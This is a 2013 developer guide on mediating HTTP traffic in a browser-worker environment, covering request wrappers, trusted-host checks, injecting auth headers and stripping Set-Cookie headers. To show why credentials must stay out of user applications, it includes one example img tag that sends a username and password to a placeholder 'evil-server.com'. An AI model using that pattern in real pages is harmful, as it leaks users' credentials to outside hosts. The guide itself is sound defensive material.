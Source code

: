 Mediating Traffic for Security and Privacy
==========================================

2013 pfraze


## Overview

The safety of the user's information relies on smart traffic policies which are enforced by the environment. This document explains how to enforce those policies, and illustrates some tools and common patterns.


## Basics

Traffic mediation is accomplished by the 'request wrapper', which is minimally defined as follows:

```javascript
Environment.request = function(origin, request) {
	// pass the request to Link for fulfillment
	return Link.request(request);
};
```

All worker servers will use this function to issue requests; it's up to the in-document servers whether to use `Environment.request` rather than `Link.request`.


## Common Patterns and Tools

### Link.parseUri

`Link.parseUri` wraps [Stephen Levithan's parseUri](http://stevenlevithan.com/demo/parseuri/js/), a function which breaks a URL into its component pieces. Some common uses for this:

```javascript
var urld = Link.parseUri(request);

// trusted remote hosts
if (/https?/.test(urld.protocol) && urld.host == 'mysite.com') {
	return Link.request(request);
}

// local traffic
if (urld.protocol == 'httpl') {
	return Link.request(request);
}
```

### instanceof origin

You can check the prototype of the request origin to make decisions.

```javascript
if (origin instanceof WorkerServer) {
	// make decisions for user applications
} else {
	// make decisions for (presumably trusted) in-document applications
}
```


## Auth & Set-Cookie headers

You never want to let credentials leak back into user applications, as they may be able to pass that data out to a remote host.

 > Even a totally isolated worker can reach a remote server! For instance, what happens when they put `<img src="http://evil-server.com/picture.png?user=pfraze&password=foobar" />` in their HTML? Unless you have highly-restrictive [Content Security Policies](https://developer.mozilla.org/en-US/docs/Security/CSP), the data in the query parameters will escape.

For this reason, it is best to add Auth headers to requests in the environment. For instance:

```javascript
Environment.request = function(origin, request) {
	//...
	// add credentials to sessions
	if (MySessionManager.hasSession(origin, request)) {
		Link.headerer(request.headers).setAuth(MySessionManager.getSession(origin, request));
	}
	// ...
};
```

It is also a good idea to scrub session headers such as 'Set-Cookie':

```javascript
Environment.request = function(origin, request) {
	//...
	// dispatch the request
	return Link.request(request)
		.then(function(response) { // on response codes 200-399
			delete response.headers['set-cookie'];
			return response;
		})
		.except(function(err) { // on response codes 400+
			delete err.response.headers['set-cookie'];
			return err;
		})
};
```

## Further Topics

 - [Using LinkJS, the HTTP wrapper](../lib/linkjs.md)
 - [Using the Environment API](lib/environment.md)

